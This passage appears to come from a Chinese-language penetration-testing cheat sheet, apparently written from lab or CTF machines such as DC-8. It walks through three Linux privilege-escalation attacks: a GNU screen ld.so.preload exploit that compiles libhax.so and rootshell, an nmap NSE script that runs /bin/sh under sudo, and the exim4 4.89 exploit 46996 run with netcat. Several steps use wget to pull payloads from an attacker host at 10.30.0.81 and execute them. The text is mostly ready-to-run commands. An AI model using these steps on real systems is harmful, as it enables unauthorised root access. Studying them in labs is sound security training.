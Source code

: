 ```

gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c
gcc -o ./rootshell ./rootshell.c
```

把编译好的 libhax.so 和 rootshell 从 kali 传给 靶机

```bash
python -m SimpleHTTPServer 8080 # kali

# 靶机
cd /tmp
wget 10.30.0.81:8080/libhax.so;wget 10.30.0.81:8080/rootshell

# 运行poc
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
whoami
```

#### nmap提权

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
sudo -l  # nmap提权
# 提权思路： 将root权限bin/sh写入脚本插件，使用nmap运行脚本插件使用namp执行脚本，执行命令不会显示命令，建议使用python交互shell后更直观，提权成功
nmap -v

echo 'os.execute("/bin/sh")' > /tmp/root.nse
cat /tmp/root.nse
sudo nmap --script=/tmp/root.nse
whoami
```

#### exim4提权

具体案例参考DC-8

查看exim4版本号

```bash
/usr/sbin/exim4 --version # 4.89
searchsploit exim 4.89
searchsploit -m 46996 #注意在kali上把文件改为unix格式

vi 46996.sh
:!set ff=unix

python -m SimpleHTTPServer  8080 # kali
cd /tmp # 靶机在tmp目录下进行下载接受，防止其他位子没有权限
wget http://10.30.0.81:8080/46996.sh # 靶机
chmod +x 46996.sh
./46996.sh -m netcat
whoami
```
